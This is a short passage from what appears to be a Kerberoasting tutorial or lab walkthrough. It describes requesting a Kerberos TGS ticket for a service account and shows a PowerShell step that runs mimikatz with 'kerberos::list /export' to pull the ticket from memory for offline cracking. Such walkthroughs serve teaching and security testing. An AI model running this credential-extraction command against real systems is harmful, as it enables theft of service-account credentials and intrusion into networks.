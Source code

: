 * This requests a **Kerberos TGS** ticket for the identified service account.

![TGS Ticket Request](/assets/image-10.png)

3. **Extract the Ticket:**

```powershell
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> C:\Users\<USERNAME>\Downloads\mimikatz_trunk\x64\mimikatz.exe
mimikatz # kerberos::list /export
```

* Extract the TGS ticket from memory for offline cracking.

